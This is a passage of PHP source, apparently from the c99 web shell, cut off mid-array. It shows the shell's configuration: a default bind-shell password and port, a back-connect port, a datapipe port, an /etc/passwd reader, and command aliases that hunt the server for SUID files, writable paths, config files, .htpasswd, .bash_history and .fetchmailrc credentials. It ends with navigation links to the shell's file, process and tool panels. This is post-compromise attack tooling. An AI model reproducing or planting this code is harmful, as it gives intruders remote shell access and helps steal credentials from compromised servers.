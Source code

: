 // array (i=&gt;{letter} ...); string {letter} - letter of a drive 
//$safemode_diskettes = range("a","z"); 
$hexdump_lines = 8;// lines in hex preview file 
$hexdump_rows = 24;// 16, 24 or 32 bytes in one line 
$nixpwdperpage = 100; // Get first N lines from /etc/passwd 
$bindport_pass = "c99";  // default password for binding 
$bindport_port = "31373"; // default port for binding 
$bc_port = "31373"; // default port for back-connect 
$datapipe_localport = "8081"; // default port for datapipe 
// Command-aliases 
if (!$win) 
{ 
$cmdaliases = array( 
  array("-----------------------------------------------------------", "ls -la"), 
  array("find all suid files", "find / -type f -perm -04000 -ls"), 
  array("find suid files in current dir", "find . -type f -perm -04000 -ls"), 
  array("find all sgid files", "find / -type f -perm -02000 -ls"), 
  array("find sgid files in current dir", "find . -type f -perm -02000 -ls"), 
  array("find config.inc.php files", "find / -type f -name config.inc.php"), 
  array("find config* files", "find / -type f -name \"config*\""), 
  array("find config* files in current dir", "find . -type f -name \"config*\""), 
  array("find all writable folders and files", "find / -perm -2 -ls"), 
  array("find all writable folders and files in current dir", "find . -perm -2 -ls"), 
  array("find all service.pwd files", "find / -type f -name service.pwd"), 
  array("find service.pwd files in current dir", "find . -type f -name service.pwd"), 
  array("find all .htpasswd files", "find / -type f -name .htpasswd"), 
  array("find .htpasswd files in current dir", "find . -type f -name .htpasswd"), 
  array("find all .bash_history files", "find / -type f -name .bash_history"), 
  array("find .bash_history files in current dir", "find . -type f -name .bash_history"), 
  array("find all .fetchmailrc files", "find / -type f -name .fetchmailrc"), 
  array("find .fetchmailrc files in current dir", "find . -type f -name .fetchmailrc"), 
  array("list file attributes on a Linux second extended file system", "lsattr -va"), 
  array("show opened ports", "netstat -an | grep -i listen") 
); 
} 
else 
{ 
$cmdaliases = array( 
  array("-----------------------------------------------------------", "dir"), 
  array("show opened ports", "netstat -an") 
); 
} 
$sess_cookie = "c99shvars"; // Cookie-variable name 
$usefsbuff = TRUE; //Buffer-function 
$copy_unset = FALSE; //Remove copied files from buffer after pasting 
//Quick launch 
$quicklaunch = array( 
array("&lt;img src=\"".$surl."act=img&img=home\" alt=\"Home\" height=\"20\" width=\"20\" border=\"0\"&gt;",$surl), 
array("&lt;img src=\"".$surl."act=img&img=back\" alt=\"Back\" height=\"20\" width=\"20\" border=\"0\"&gt;","#\" onclick=\"history.back(1)"), 
array("&lt;img src=\"".$surl."act=img&img=forward\" alt=\"Forward\" height=\"20\" width=\"20\" border=\"0\"&gt;","#\" onclick=\"history.go(1)"), 
array("&lt;img src=\"".$surl."act=img&img=up\" alt=\"UPDIR\" height=\"20\" width=\"20\" border=\"0\"&gt;",$surl."act=ls&d=%upd&sort=%sort"), 
array("&lt;img src=\"".$surl."act=img&img=refresh\" alt=\"Refresh\" height=\"20\" width=\"17\" border=\"0\"&gt;",""), 
array("&lt;img src=\"".$surl."act=img&img=search\" alt=\"Search\" height=\"20\" width=\"20\" border=\"0\"&gt;",$surl."act=search&d=%d"), 
array("&lt;img src=\"".$surl."act=img&img=buffer\" alt=\"Buffer\" height=\"20\" width=\"20\" border=\"0\"&gt;",$surl."act=fsbuff&d=%d"), 
array("&lt;b&gt;Encoder&lt;/b&gt;",$surl."act=encoder&d=%d"), 
array("&lt;b&gt;Tools&lt;/b&gt;",$surl."act=tools&d=%d"), 
array("&lt;b&gt;Proc.&lt;/b&gt;",$surl."act=processes&d=%d"), 